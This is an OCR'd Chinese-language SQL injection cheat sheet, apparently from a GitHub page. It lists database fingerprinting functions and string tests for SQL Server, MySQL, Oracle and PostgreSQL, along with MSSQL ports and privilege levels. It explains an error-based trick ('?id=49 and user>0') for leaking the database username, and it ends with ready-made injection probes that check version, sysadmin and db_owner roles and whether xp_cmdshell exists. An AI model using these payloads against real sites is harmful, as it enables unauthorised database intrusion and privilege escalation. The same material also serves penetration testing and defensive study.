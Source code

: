 postgresql: select version() --

 

各数据库特有的函数
sql server: @@pack_received @@rowcount

mysql: connection_id() last_insert_id() row_count()

oracle: bitand(1,1)

postgresql: select extract( dow from row())

 

对于字符串处理方式
sql server: id=1 and 'a'+'b'='ab' --

mssql: id=1 and 'a' + 'b' = 'ab'

mysql: id= 1 and 'a'+'b'='ab' ,'ab'=concat('a' , 'b')

oracle: id=1 and 'a'+'b' = 'a' || 'b' , 'ab'=concat('a' , 'b')

postgresql: id=1 and 'a' + 'b' = 'a' || 'b', 'ab' = concat('a' , 'b')

特殊符号，注释的判断

1、"null" 和 "%00" 是Access支持的注释

2、";" 是子句查询标识符，在Oracle中不支持多行查询，返回错误，很可能是Oracle数据库。

 

(SQL Server) MSsql服务、端口、后缀
端口：1433

后缀：cracer.mdf

日志文件后缀：cracer_log.ldf

mssql数据库权限

sa权限：数据库操作，文件管理，命令执行，注册表读取等system

db权限：文件管理，数据库操作等users-administrators

public权限：数据库操作guest-users

SQL Server有一些系统变量，如果服务器IIS提示没关闭，并且SQL Server返回错误提示的话，那可以直接从出错信息的获取，方法如下：

？id=49 and user>0

这句语句很简单，但却包含了SQL Server特有注入方法的精髓，我自己也是在一次无意的测试中发现这种效率极高的猜解方法。

先看看含义，前面语句正常，重点在and user>0, user是SQL Server的一个内置变量，它的值是当前连接的用户名，类型为nvarchar。拿一个nvarchar的值跟int的数0比较，系统会先试图将nvarchar的值转成int型，当然，转的过程中肯定会出错，SQL Server的出错提示是：将nvarchar值"abc"转换数据类型为int的列时发生语法错误，abc正是变量user的值，这样，就拿到了数据库的用户名。

常用测试语句：

 and exists(select* from sysobjects)       //判断数据库是否为SQLServer
 and exists(select * from tableName)       //判断某表是否存在..tableName为表名
 and 1=(select @@VERSION)                  //SQLServer版本
 and 1=(select db_name())                  //当前数据库名
 and 1=(select @@servername)               //本地服务名
 and 1=(select IS_SRVROLEMEMBER('sysadmin')) //判断是否是系统管理员
 and 1=(select IS_MEMBER('db_owner'))       //判断是否是库权限
 and 1=(select HAS_DBACCESS('master'))      //判断是否有库读取权限
 and 1=(select count(*) from master.dbo.sysobjects where xtype ='X' and name='xp_cmdshell')   //判断XP_CMDSHELL是否存在
